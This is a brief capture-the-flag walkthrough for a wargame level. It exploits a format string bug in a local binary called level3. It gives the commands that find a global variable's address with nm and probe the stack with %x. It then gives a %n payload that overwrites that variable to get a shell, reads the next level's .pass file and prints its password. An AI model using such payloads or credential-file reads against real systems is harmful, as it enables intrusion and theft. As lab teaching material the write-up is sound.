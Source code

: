 # Level 03
- [Tuto](https://nikhilh20.medium.com/format-string-exploit-ccefad8fd66b)
- `./level3`
```
%d
512
```
- `nm level3`
<pre>
<strong>0804988c</strong> B m
</pre>
- `(python -c "print ('AAAA' + '\x8c\x98\x04\x08' + '%x '*5)") | ./level3`
<pre>
AAAA�200 b7fd1ac0 b7ff37d0 <strong>41414141 804988c</strong>
</pre>
- `(python -c "print ('AAAA' + '\x8c\x98\x04\x08' + '%x '*4 + 'A'*25 + '%n')"; cat) | ./level3`
```
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
